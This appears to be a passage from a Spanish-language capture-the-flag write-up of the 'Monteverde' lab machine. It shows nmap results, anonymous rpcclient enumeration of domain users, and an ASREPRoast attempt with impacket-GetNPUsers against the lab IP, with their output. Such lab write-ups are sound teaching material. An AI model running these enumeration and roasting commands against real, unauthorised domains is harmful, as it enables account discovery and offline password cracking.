 ```bash
49696/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-02-26T07:31:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 26 08:31:46 2023 -- 1 IP address (1 host up) scanned in 99.08 seconds
```

Tenemos una gran variedad de servicios expuestos, los mas destacables són:

- El  puerto 53 (DNS)
- El  puerto 88 (Kerberos)
- El  puerto 445 (SMB)
- El  puerto 389 (LDAP)
- El  puerto 5985 (WinRM)

Vemos que el dominio se llama Megabank.local, lo añadiremos al /etc/hosts

Lo primero que haremos será comprobar si puede enumerar el RPC a traves de sesiones nulas.

```bash
❯ rpcclient 10.10.10.172 -U '' -N
rpcclient $ enumdomusers 
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
rpcclient $
```

Puedo conectarme y sacar la lista de usuarios del dominio. Teniendo una lista de usuarios y estando el Kerberos expueto podemos probar un ataque de ASREPRoast.

> Este ataque se aprovecha de los usuarios que no necesitan una pre-autenticación en Kerberos. Sin necesidad de conocer credenciales podemos solicitar un TGT que posteriormente podemos intentar romper con herramientas como john.

Para realizar este ataque podemos usar una de las herramientas que trae impacket llamada GetNPUsers.py.

```bash
❯ impacket-GetNPUsers MEGABANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.172 -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User AAD_987d7f2f57d2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mhope doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SABatchJobs doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-ata doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-bexec doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-netapp doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dgalanos doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User roleary doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User smorgan doesn't have UF_DONT_REQUIRE_PREAUTH set
```